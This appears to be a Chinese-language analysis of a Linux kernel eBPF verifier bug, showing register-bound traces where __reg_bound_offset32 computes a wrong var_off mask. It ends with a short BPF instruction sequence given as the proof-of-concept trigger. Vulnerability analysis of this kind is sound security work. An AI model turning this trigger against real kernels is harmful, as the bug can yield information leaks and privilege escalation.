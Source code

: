 为了更加精确地规定寄存器的访问范围，linux kernel 引入了**reg_bound_offset32函数来获取范围，在调用jmp32之后执行。 如umax为0x7fffffff，var_off为0xfffffffc，取其并集算出的结果应为0x7ffffffc。 而漏洞点就在于引入的**reg_bound_offset32函数，该函数计算的结果并不正确。 如执行以下代码：

```
5: R0_w=inv1 R1_w=inv(id=0) R10=fp0
  5: (18) r2 = 0x4000000000
  7: (18) r3 = 0x2000000000
  9: (18) r4 = 0x400
  11: (18) r5 = 0x200
  13: (2d) if r1 &gt; r2 goto pc+4
   R0_w=inv1 R1_w=inv(id=0,umax_value=274877906944,var_off=(0x0; 0x7fffffffff)) R2_w=inv274877906944 R3_w=inv137438953472 R4_w=inv1024 R5_w=inv512 R10=fp0
  14: R0_w=inv1 R1_w=inv(id=0,umax_value=274877906944,var_off=(0x0; 0x7fffffffff)) R2_w=inv274877906944 R3_w=inv137438953472 R4_w=inv1024 R5_w=inv512 R10=fp0
  14: (ad) if r1 &lt; r3 goto pc+3
   R0_w=inv1 R1_w=inv(id=0,umin_value=137438953472,umax_value=274877906944,var_off=(0x0; 0x7fffffffff)) R2_w=inv274877906944 R3_w=inv137438953472 R4_w=inv1024 R5_w=inv512 R10=fp0
  15: R0=inv1 R1=inv(id=0,umin_value=137438953472,umax_value=274877906944,var_off=(0x0; 0x7fffffffff)) R2=inv274877906944 R3=inv137438953472 R4=inv1024 R5=inv512 R10=fp0
  15: (2e) if w1 &gt; w4 goto pc+2
   R0=inv1 R1=inv(id=0,umin_value=137438953472,umax_value=274877906944,var_off=(0x0; 0x7f00000000)) R2=inv274877906944 R3=inv137438953472 R4=inv1024 R5=inv512 R10=fp0
  16: R0=inv1 R1=inv(id=0,umin_value=137438953472,umax_value=274877906944,var_off=(0x0; 0x7f00000000)) R2=inv274877906944 R3=inv137438953472 R4=inv1024 R5=inv512 R10=fp0
  16: (ae) if w1 &lt; w5 goto pc+1
   R0=inv1 R1=inv(id=0,umin_value=137438953472,umax_value=274877906944,var_off=(0x0; 0x7f00000000)) R2=inv274877906944 R3=inv137438953472 R4=inv1024 R5=inv512 R10=fp0

```

64位下的范围为：

```
reg-&gt;umin_value = 0x2000000000
reg-&gt;umax_value = 0x4000000000
p-&gt;var_off.mask = 0x7fffffffff
```

而在32位下，寄存器的范围为[0x200, 0x400]，正常预期获得的reg-&gt;var_off.mask应为0x7f000007ff，或者不精确时为0x7fffffffff。但通过__reg_bound_offset32函数获取的结果如下：

```
reg-&gt;umin_value: 0x2000000000
reg-&gt;umax_value: 0x4000000000
reg-&gt;var_off.value: 0x0
reg-&gt;var_off.mask: 0x7f00000000
```

对于reg-&gt;var_off.mask的计算错误，有可能造成后续的判断或计算错误，使得bpf在验证时和实际运行时计算结果不同，最终导致信息泄露和权限提升。

### 2.1 poc分析

```
0: (b7) r0 = 808464432
   1: (7f) r0 &gt;&gt;= r0
   2: (14) w0 -= 808464432
   3: (07) r0 += 808464432
   4: (b7) r1 = 808464432
   5: (de) if w1 s&lt;= w0 goto pc+0
   6: (07) r0 += -2144337872
   7: (14) w0 -= -1607454672
   8: (25) if r0 &gt; 0x30303030 goto pc+0
   9: (76) if w0 s&gt;= 0x303030 goto pc+2
  10: (05) goto pc-1
  11: (05) goto pc-1
  12: (95) exit
```
